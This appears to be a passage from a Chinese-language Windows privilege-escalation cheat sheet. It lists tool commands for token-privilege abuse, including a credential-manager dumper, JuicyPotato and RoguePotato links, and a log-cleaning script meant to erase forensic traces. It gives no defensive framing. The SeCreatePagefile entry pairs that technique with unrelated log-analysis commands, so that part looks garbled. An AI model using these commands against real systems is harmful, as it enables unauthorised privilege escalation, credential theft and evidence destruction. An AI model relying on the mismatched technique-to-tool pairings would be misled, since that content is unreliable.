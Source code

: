 1.

`.load C:\dev\PrivEditor\x64\Release\PrivEditor.dll`

Or

`CredManBOF`

2.

`TrustExec.exe -m exec -c "whoami /priv" -f`

### **Abusing tokens via SeAssignPrimaryToken**

域：No

Local Admin: Yes

操作系统: Windows

类型: Abuse Privilege

方法:

1.

`JuicyPotato.exe`

Or

`https://github.com/decoder-it/juicy_2`

`https://github.com/antonioCoco/RoguePotato`

### **Abusing via SeCreatePagefile**

域：No

Local Admin: Yes

操作系统: Windows

类型: Abuse Privilege

方法:

1.

`./WELA.ps1 -LogFile .\Security.[evtx](https://zhida.zhihu.com/search?content_id=236623600&content_type=Article&match_order=1&q=evtx&zd_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJ6aGlkYV9zZXJ2ZXIiLCJleHAiOjE3NjAwNzgzMDIsInEiOiJldnR4IiwiemhpZGFfc291cmNlIjoiZW50aXR5IiwiY29udGVudF9pZCI6MjM2NjIzNjAwLCJjb250ZW50X3R5cGUiOiJBcnRpY2xlIiwibWF0Y2hfb3JkZXIiOjEsInpkX3Rva2VuIjpudWxsfQ.Gl-q_X1WzEh1cqQWEk7B1Fp4y7Pt64SgP5JGES6LtKI&zhida_source=entity) -EventIDStatistics`

2.

`flog -s 10s -n 200`

Or

`invoke-module LogCleaner.ps1`

  